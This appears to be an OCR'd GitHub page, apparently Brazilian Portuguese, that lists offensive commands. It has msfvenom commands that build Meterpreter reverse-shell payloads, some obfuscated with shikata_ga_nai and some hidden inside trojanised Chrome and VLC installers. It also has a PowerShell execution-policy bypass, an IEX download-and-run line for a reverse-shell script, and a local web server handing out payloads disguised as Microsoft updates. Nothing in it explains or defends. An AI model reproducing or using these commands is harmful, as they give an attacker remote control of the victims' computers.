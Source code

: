 msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -e x86/shikata_ga_nai -i 10 -f exe -o payload_encoded.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.137 LPORT=443 -f exe -x ChromeSetup.exe -o chrome_infectado.exe

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.137 LPORT=4444 -f exe > atibaia_payload.exe

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=<seu_ip> LPORT=443 -f exe -x vlc_setup.exe -o vlc_infectado.exe

msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.1.128 LPORT=443 -f psh-cmd -o payload.ps1

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.137 LPORT=4444 -f psh > payload.ps1

msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.100 LPORT=4444 -f exe > trojan.exe

Get-ExecutionPolicy

Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope Process -Force

IEX (New-Object Net.WebClient).DownloadString('https://https:/github.com/Ray-King11/TESTE/tree/main/Invoke-ReverseShell.ps1')


python3 -m http.server 8080

http://192.168.1.137:8080/vlc_infectado.exe

http://192.168.1.137:8080/documento_infectado.rtf

http://192.168.1.137:8080/microsoft_update.page.zip

http://192.168.1.137/payload.ps1

Test-NetConnection 192.168.1.137 -Port 443

https://www.microsoft.com/pt-br/windows/windows-11?r=1#pchealthcheck
 
